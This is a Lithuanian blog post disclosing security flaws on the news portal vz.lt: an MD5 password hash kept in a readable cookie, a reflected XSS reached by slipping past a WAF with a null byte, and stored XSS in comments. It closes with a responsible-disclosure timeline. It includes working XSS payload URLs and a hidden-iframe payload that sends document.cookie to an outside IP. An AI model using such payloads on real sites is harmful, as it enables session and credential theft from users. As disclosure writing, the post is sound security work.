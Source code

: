 ﻿---
layout:     post
title:      "Kas skaito VŽ slapukus?"
date:       2022-05-02 08:00:00
categories: HackAndTell
cover:      manovz.svg); background-color:rgb(187,1,42); background-color:rgb(187,1,42
permalink:  /lt/blog/vz-slapukai
---
Atsitik tu man taip, kad naršydamas [Verslo Žinias](https://www.vz.lt) (VŽ) paspaudžiau "[uždraustą](https://techcrunch.com/2021/10/15/f12-isnt-hacking-missouri-governor-threatens-to-prosecute-local-journalist-for-finding-exposed-state-data/) [mygtuką](https://twitter.com/GovParsonMO/status/1448697768311132160)" F12. Dėmesį patraukė ilgas slapukų sąrašas:

![VŽ slapukų sąrašas](vz_slapukai.png "Slapukai")

Ten buvo slapukų su įdomiu pavadinimu [evercookie](https://en.wikipedia.org/wiki/Evercookie), bet ši istorija ne apie tai. Labiausiai kliuvo `VzLtLoginInfo`, kurio reikšmė buvo mano elektroninio pašto adresas, ir `VzLTLoginInfoPwd`, kurio reikšmė buvo 32-iejų raidžių ir skaičių kratinys. Kadangi savo slaptažodį puikiai žinau, greitai [patikrinau](https://emn178.github.io/online-tools/md5.html) hipotezę, kad tai jo MD5 reikšmė.

### Web programų 101

Reikia pasakyti, kad tai rimtas anti-pattern'as. Vartotojo slaptažodis turi būti perduodamas į serverį vieną vienintelį kartą per šifruotą HTTPS prisijungimą. Serveris nustato vartotojo tapatybę ir stateful architektūros atveju sukuria vartotojui sesiją. Tam serveris turi sugeneruoti tikrai atsitiktinį identifikatorių, kurio neįmanoma atspėti. Ir ne, [Math.random()](https://securitylab.github.com/advisories/GHSL-2020-228-YMFE-yapi/) ir kiti PRNG algoritmai tam netinka. Naršyklė gautą sesijos identifikatorių išsaugo pvz. slapuke.

Toliau naršyklė ir serveris bendrauja tik per sesijos identifikatorių. Vartotojo slaptažodis naršyklėje niekur nesaugomas jokiame pavidale iš kurio galima būtų atkurti jo pradinę reikšmę (MD5 yra super greitas, super pasenęs algoritmas, leidžiantis milžinišku greičiu surasti pradinį slaptažodį). Vartotojui atsijungus (angl. sign out) sesija serveryje yra panaikinama ir senas sesijos identifikatorius nebetenka jokios reikšmės.

### Na ir kas?

Galite paklausti: "Na ir kas čia tokio, kad slaptažodžio MD5 reikšmė išsaugoma slapuke? Juk ji išsaugoma mano kompiuteryje, mano naršyklėje ir neprieinama niekam kitam. Tik man ir serveriui, kuris ir taip mano slaptažodį žino." Galima būtų tiesiog pasijuokti iš tokio architektūrinio sprendimo ir tiek, bet pabandykime pademonstruoti jo įtaką saugumui.

Kaip matome `VzLtLoginInfoPwd` slapukas neturi `HttpOnly` atributo (t.y. JavaScript puslapio kodas turi teisę jį perskaityti) ir išrašytas visiems [vz.lt](https://vz.lt) subdomain'ams. Tai reiškia kad XSS pažeidžiamumo atveju bet kokiame iš [vz.lt](https://vz.lt) subdomain'ų ([www.vz.lt](https://www.vz.lt), [mano.vz.lt](https://mano.vz.lt), [login.vz.lt](https://login.vz.lt) ir t.t.) kenkėjiškas kodas gali jį pavogti. Sėkmingos vagystės atveju galima atkurti pradinį slaptažodį, bet tai net nesvarbu, nes pavogta MD5 reikšmė pati savaime yra "prisijungimo bilietas". **Tačiau skirtingai nuo sesijos identifikatoriaus, pavogta reikšmė galioja tiek, kiek galioja vartotojo slaptažodis.**

### Ieškome XSS

Pabandykime surasti XSS VŽ portale... Po kurio laiko išryškėja pirmasis kandidatas: [https://www.vz.lt/apps/pbcs.dll/exec?name=asdf](https://www.vz.lt/apps/pbcs.dll/exec?name=asdf).

Serveris atsako pranešimu:

![ERROR: Script asdf is missing!](vz_script_asdf_is_missing.png "ERROR: Script asdf is missing!")

Tai, kad serveris "atspindi" mūsų įvestą reikšmę yra geras ženklas. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=<i>asdf</i>) ir gauname:

![SQL Injection. System will not process this request.](vz_sqli.png "SQL Injection. System will not process this request.")

Tas pats ir su [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;](https://www.vz.lt/apps/pbcs.dll/exec?name=<). Panašu į kažkokį savadarbį [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) (Web Application Firewall). Galima tik spėlioti prie ko čia SQL injekcija. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<i>asdf</i>) ir matome:

![ERROR: Script (italic pradžia) asdf (italic pabaiga) is missing!](vz_script_asdf_is_missing_italic.png "ERROR: Script asdf is missing!")

Įterpę nulinį baitą sėkmingai apėjome WAF, o serveris atvaizdavo mūsų HTML kodą. [Hello PHP](https://www.php.net/manual/en/security.filesystem.nullbytes.php)? :)

Tačiau įvedę [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;script>alert(1)&lt;/script>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<script>alert(1)</script>) gauname:

![Access denied. Error 15. What happened? The request was blocked by security rules. Your IP: empty. Proxy IP: 107.154.76.234. Incident ID: empty. Powered by Imperva.](vz_access_denied.png "Access denied")

Panašu, kad VŽ naudoja dar vieną WAF – Imperva. Šis komercinis sprendimas turi ilgą šleifą taisytų klaidų. Ir nors jo apėjimo būdą yra sunkiau surasti, tačiau [nėra](https://www.google.com/search?q=imperva+xss+bypass) [neįmanoma](https://github.com/0xInfection/Awesome-WAF/blob/master/README.md#imperva). Vis dėlto yra lengvesnių kelių. [Openbugbounty](https://www.openbugbounty.org/search/?search=vz.lt&researcher=&program=) randame du įrašus apie XSS VŽ portale, apie kuriuos buvo pranešta Verslo Žinioms 2018 m. Sausio 19 d. ir 2018 m. Rugpjūčio 10 d.:

- [https://www.openbugbounty.org/reports/533348/](https://www.openbugbounty.org/reports/533348/)
- [https://www.openbugbounty.org/reports/661990/](https://www.openbugbounty.org/reports/661990/)

Antrasis yra "pridengtas" Imperva, tačiau pirmasis veikė iki šiol! WAF naudojimas negali būti priežastimi netaisyti žinomų pažeidžiamumų. Ar jis liko neištaisytas todėl, kad yra [akademija.vz.lt](https://akademija.vz.lt), o ne pagrindiniame subdomain'e [www.vz.lt](https://www.vz.lt)? Didelė klaida, nes šis subdomain'as gali skaityti `VzLtLoginInfoPwd` ir `VzLtLoginInfo` slapukus: [https://akademija.vz.lt/paieska/?q=">&lt;script>alert(document.cookie)&lt;/script>](https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ealert\(document.cookie\)%3c/script%3e).

![VŽ akademija alert pranešimas su visais slapukais.](vz_akademija_xss.png "Alert su slapukais")

### Kas iš to alert?

Vietoj `alert` kenkėjiškas kodas galėtų pavogti užklydusio vartotojo slapukus. Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VŽ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikėjo įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko, ir slapukas būtų pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VŽ slapukai jų neturi.

Vis dėlto, yra kitas būdas, kuris veikia visur. Šis kodas kenkėjiškame puslapyje arba nulaužtame forume trumpam blykstelėjęs išsiustų [vz.lt](https://vz.lt) slapukus trečioms šalims.

<details>
  <summary style="cursor:pointer">▶ Proof of Concept:</summary>

  <script src="https://gist.github.com/jarlob/22dc518fbfbaa9b64653a220f9dce2e9.js"></script>
</details><br>

### XSS komentaruose Nr. 1

Komentarai - tai taikinys Nr. 1, nes leidžia įvesti kažką, kas bus parodyta kitiems vartotojams. Komentuojančio vartotojo vardas buvo tvarkingai atvaizduojamas net jei tas vardas turėjo specialių HTML simbolių, kaip `Vardas<script>alert(1)</script>`. Tačiau jei į tokio vartotojo komentarą kas nors atsakydavo, jo vardas buvo interpretuojamas kaip HTML kodas. Taigi, iš esmės užteko tam pačiam vartotojui atsakyti į savo paties komentarą, kad straipsnis su tokiu komentaru būtų "apkrėstas" kenkėjišku JavaScript kodų:  

![Stored VŽ XSS. Vartotojo su vardu &lt;script&gt;console.log(13)&lt;/script&gt; komentaras ir naršyklės developer tools console tabas su išvestu skaičiumi 13](vz_stored_xss1.png "Stored XSS")

Tikras kenkėjiškas kodas galėjo lengvai pamodifikuoti antraštę, kad nesimatytų `<i>` ir `<script>` pradiniame pranešime.  
Šis Stored XSS yra pavojingesnis už prieš tai aprašytą Reflected XSS nes:
1. Nereikia niekam siųsti specialiai paruoštų nuorodų arba apkrėtinėti trečiųjų šalių puslapių. Galima įterpti savo kodą tiesiai į VŽ komentarus. Aukai užtenka tiesiog atsiversti komentarų puslapį.  
2. WAF neapsaugo nuo tokio tipo atakos, nes nesugeba atskirti kur yra legitimus kodas, o kur yra įterptas.  

### XSS komentaruose Nr. 2

Po pranešimo VŽ pataisė šią spragą, o taip pat pradėjo filtruoti vartojo vardus vartotojo profilio nustatymuose. Tačiau pastebėjau dar vieną šio XSS atmainą. Tuo metu kai nieko neįtariantis vartotojas tik paspausdavo "Atsakyti" į kenkėjiško vartotojo komentarą, jo vardas vis dar būdavo interpretuojamas kaip HTML:

![Stored VŽ XSS. Vartotojo su vardu Mr&lt;script src=//45.rs&gt; komentaras ir iššokantis langas su tekstu www.vz.lt OK](vz_stored_xss2.png "Stored XSS")

Tai yra irgi Stored XSS, nors kiek mažiau pavojingas. Aukai reikėjo ne tik aplankyti užkrėsto straipsnio komentarus, bet ir paspausti "Atsakyti". Nors kai vartotojas norėdavo pasikeisti vardą, jis buvo filtruojamas, VŽ pamiršo filtruoti vartotojų vardus registracijos metų.

### Chronologija:

2022.01.28 - Išsiųstas el. laiškas VŽ Interneto produktų vystymo skyriaus vadovui ir [NKSC](https://www.nksc.lt/).  
2022.01.28 - Gautas patvirtinimas iš NKSC.  
2022.02.14 - NKSC pranešė, kad susisiekė su VŽ 2022.02.03 d. Dėl neaiškių aplinkybių mano el. laiškas jų nepasiekė.  
2022.02.14 - VŽ padėkojo ir pranešė, kad XSS ištaisytas, o "slapukų naudojimo planuojama atsisakyti".  
2022.03.09 - Išsiųstas el. laiškas apie Stored XSS VŽ komentaruose VŽ Interneto produktų vystymo skyriaus vadovui ir NKSC.  
2022.03.09 - NKSC pranešė, kad susisiekė su VŽ telefonu.  
2022.03.09 - VŽ padėkojo ir pranešė, kad pažeidžiamumas ištaisytas.  
2022.03.09 - Išsiųstas el. laiškas apie XSS kai vartotojas spaudžia "Atsakyti".  
2022.05.02 - VŽ vis dar saugo slaptažodžio MD5 reikšmę slapuke. Kiti pažeidžiamumai ištaisyti.  
2022.05.31 - VŽ pranešė, kad pašalino slaptažodžio MD5 reikšmės saugojimą slapuke.  

